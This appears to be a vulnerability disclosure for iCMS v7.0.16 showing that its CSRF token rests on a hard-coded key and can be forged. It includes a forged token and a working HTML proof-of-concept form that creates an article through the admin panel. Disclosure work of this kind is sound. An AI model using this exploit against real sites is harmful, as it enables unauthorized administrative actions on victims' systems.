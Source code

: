 ## Global CSRF Vulnerability Caused by Logic Defect in iCMS v7.0.16

The "CSRF_TOKEN"  param has been set when I try to find some CSRF vuln in the iCMS v7.0.16, but it is finally turned out to be a "fake CSRF_TOKEN" after I audit source code.

### location

The calculation logic of csrf_token is located in：

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve9.png)

it is based the value of "key" in the line 385, and the "key" is calculated by the value of "iPHP_KEY", the "iPHP_KEY" is hard coded in the source code. like：

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve10.png)

And then we can see the "CSRF_TOKEN" check logic in here:

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve11.png)

if the time is in the scope, and the values are equal, the check will be fine. So the problem is the "csrf_token" is hard coded in the source code, but not binding with the Identity，and the default expiration time("iPHP_COOKIE_TIME") is too long (as the picture show is 31536000 seconds). if someone builds a website with default configuration, the csrf_token can be fully forged.
 
### proof

we can just use the "authcode" function to create a "csrf_token", here is : 9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q

and then we make a poc for csrf to add an article ,like:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q" method="POST">
      <input type="hidden" name="&#95;cid" value="" />
      <input type="hidden" name="&#95;scid" value="" />
      <input type="hidden" name="&#95;tags" value="" />
      <input type="hidden" name="&#95;pid" value="" />
      <input type="hidden" name="&#95;data&#95;id" value="" />
      <input type="hidden" name="article&#95;id" value="0" />
      <input type="hidden" name="userid" value="1" />
      <input type="hidden" name="ucid" value="" />
      <input type="hidden" name="postype" value="1" />
      <input type="hidden" name="REFERER" value="http&#58;&#47;&#47;192&#46;168&#46;64&#46;2&#47;iCMS&#45;7&#46;0&#46;16&#47;admincp&#46;php&#63;app&#61;article&amp;do&#61;trash" />
      <input type="hidden" name="chapter" value="" />
      <input type="hidden" name="markdown" value="0" />
      <input type="hidden" name="cid" value="4" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="scid&#91;&#93;" value="4" />
      <input type="hidden" name="pid&#91;&#93;" value="0" />
      <input type="hidden" name="title" value="fasdhfas" />
      <input type="hidden" name="stitle" value="fasdfa" />
      <input type="hidden" name="source" value="fads" />
      <input type="hidden" name="author" value="fs" />
      <input type="hidden" name="editor" value="iCMS" />
      <input type="hidden" name="pic" value="" />
      <input type="hidden" name="mpic" value="" />
      <input type="hidden" name="spic" value="" />
      <input type="hidden" name="keywords" value="fasdf" />
      <input type="hidden" name="tags" value="" />
      <input type="hidden" name="description" value="dfasdfasd" />
      <input type="hidden" name="data&#95;id" value="" />
      <input type="hidden" name="subtitle" value="fasd" />
      <input type="hidden" name="autopic" value="1" />
      <input type="hidden" name="body&#91;&#93;" value="&lt;p&gt;fadsfasd&lt;&#47;p&gt;" />
      <input type="hidden" name="pubdate" value="2021&#45;01&#45;24&#32;16&#58;05&#58;50" />
      <input type="hidden" name="sortnum" value="1611475550" />
      <input type="hidden" name="weight" value="1611475550" />
      <input type="hidden" name="hits" value="0" />
      <input type="hidden" name="hits&#95;today" value="0" />
      <input type="hidden" name="hits&#95;yday" value="0" />
      <input type="hidden" name="hits&#95;week" value="0" />
      <input type="hidden" name="hits&#95;month" value="0" />
      <input type="hidden" name="favorite" value="0" />
      <input type="hidden" name="comments" value="0" />
      <input type="hidden" name="good" value="0" />
      <input type="hidden" name="bad" value="0" />
      <input type="hidden" name="tpl" value="" />
      <input type="hidden" name="clink" value="" />
      <input type="hidden" name="url" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

and take this in my vps website , the article will be created when the user click the website in my vps, like :

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve12.png)

This is a global problem, the "csrf_token" is not fully protective here and many operations will involve csrf vulnerabilities .


